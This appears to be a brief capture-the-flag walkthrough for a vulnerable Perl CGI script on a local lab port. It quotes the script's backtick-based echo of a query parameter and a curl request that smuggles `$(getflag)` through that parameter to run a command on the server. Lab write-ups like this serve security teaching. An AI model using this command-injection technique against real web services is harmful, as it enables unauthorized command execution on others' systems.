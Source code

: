 ### Documentation
[Perl injection](https://perl-begin.org/topics/security/code-markup-injection/)

### Exploit
1. `cat level04.pl`
   ```perl
   #!/usr/bin/perl
   # localhost:4747
   [...]
     print `echo $y 2>&1`;
   [...]
   x(param("x"));
   ```

2. `curl localhost:4747?x=test`
   ```
   test
   ```

3. `curl 'localhost:4747?x=$(getflag)'`
